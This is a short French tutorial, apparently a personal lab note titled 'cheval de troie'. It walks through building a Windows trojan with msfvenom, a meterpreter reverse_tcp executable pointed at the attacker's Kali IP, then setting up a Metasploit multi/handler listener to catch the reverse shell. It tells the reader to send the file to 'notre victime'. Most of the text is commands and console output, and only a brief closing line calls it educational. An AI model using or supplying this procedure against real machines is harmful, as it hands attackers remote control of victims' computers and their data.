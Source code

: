 ```yaml
---
{"dg-publish":true,"permalink":"/kali/cheval-de-troie/"}
---
```


Tout d'abord il faut commencer par donner le chemin du fichier :
```shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP.Kali> LPORT=<Port_voulu> 
-f exe -o <Chemin/nom.exe>
```
Une fois cela fait il faut lancer msf console 
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole
```
 Une fois lancer on a cet écran :
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole

                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```
on va taper les commandes suivante :
```Shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP.Kali>
LHOST => <IP.Kali>
msf6 exploit(multi/handler) > exploit
```
On se retrouve au chemin du fichier indiqué et on l'envoie à notre victime.
Attention ce TP est à but éducatif. Ce Trojan sera détecté directement par l'antivirus du système visé. Une fois installé tapez la commande `<help>` pour connaître les différentes actions possible.